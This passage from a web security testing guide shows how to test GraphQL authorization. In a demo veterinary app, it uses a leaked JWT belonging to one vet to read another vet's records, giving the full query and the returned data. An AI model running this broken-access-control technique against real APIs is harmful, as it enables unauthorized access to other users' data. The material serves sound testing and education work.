 ![Auth GraphQL Query](images/auth1.png)\
_Figure 12.1-4: GraphQL Auth Query API_

Testing the authorization implementation varies from deployment to deployment since each schema will have different sensitive information, and hence, different targets to focus on. In this example, every user (even un-authenticated) can gain access to auth tokens of every veterinarian listed in the database. These tokens can be used to perform additional actions the schema allows, such as associating or disassociating a dog from any specified veterinarian (using mutations), while there is no matching of the auth token to the veterinarian which appears in the request. An example would be, to use the token that was extracted (which belongs to Julien), and use it to perform an action as Benoit, who has the number 2 ID.

```graphql
query brokenAccessControl {
  myInfo(accessToken:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNjAzMjkxMDE2fQ.r3r0hRX_t7YLiZ2c2NronQ0eJp8fSs-sOUpLyK844ew", veterinaryId: 2){
    id, name, dogs {
      name
    }
  }
}
```

And the response:

```json
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
        {
          "name": "..."
        }
      ]
    }
  }
}
```
